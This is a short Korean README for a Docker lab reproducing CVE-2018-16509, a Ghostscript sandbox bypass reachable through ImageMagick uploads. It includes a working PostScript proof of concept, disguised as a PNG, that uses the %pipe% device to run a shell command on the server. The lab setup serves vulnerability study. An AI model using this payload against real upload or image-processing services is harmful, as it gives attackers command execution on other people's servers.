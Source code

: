 # CVE-2018-16509

**Contributors**

[정기현](https://github.com/jkh011120)

## 요약

CVE-2018-16509는 Postscript 및 PDF를 처리하는 Ghostscript를 우회하여 사용자가 의도치 않은 행위를 하게 합니다. 즉, 파일 확장자로 우회하여 파일업로드 공격이 가능합니다.

## 환경 구성 및 실행

`docker-compose up -d` 커맨드를 입력하여 테스트 환경을 실행합니다 (GhostScript 9.23 및 ImageMagick 7.0.8 버전을 사용합니다).

## poc.ps -> poc.png
Postscript로 코드를 만든 후 확장자를 png로 변경합니다.

```
%!PS
userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%id > /tmp/success && cat /tmp/success) currentdevice putdeviceprops
```



<h3>결과</h3>

![](1.png)

![](2.png)

![](3.png)

![](4.png)


<h3>정리</h3>

Ghostscript는 파일 우회가 됨.
하지만 9.52.1버전 이후부터 해결 됨.

